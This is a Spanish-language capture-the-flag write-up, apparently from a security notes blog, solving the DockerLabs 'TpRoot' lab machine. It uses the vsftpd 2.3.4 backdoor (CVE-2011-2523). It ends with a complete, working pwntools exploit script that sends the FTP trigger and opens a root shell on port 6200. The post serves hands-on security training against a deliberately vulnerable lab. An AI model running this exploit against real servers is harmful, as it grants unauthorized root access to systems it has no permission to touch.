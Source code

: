 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)



**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

```#!/usr/bin/python3
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution (pwntools)
# CVE : CVE-2011-2523
# Original author: HerculesRD
# Ported to pwntools for Python 3.13+

from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('   [+] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

# --- FTP trigger ---
ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[+] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()
# --- Backdoor shell ---
try:
    shell = remote(host, 6200, timeout=5.0)
    print("[+] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[-] Could not connect to backdoor: {e}")```


![img12](/secnotes/assets/img/tproot/12.png) 


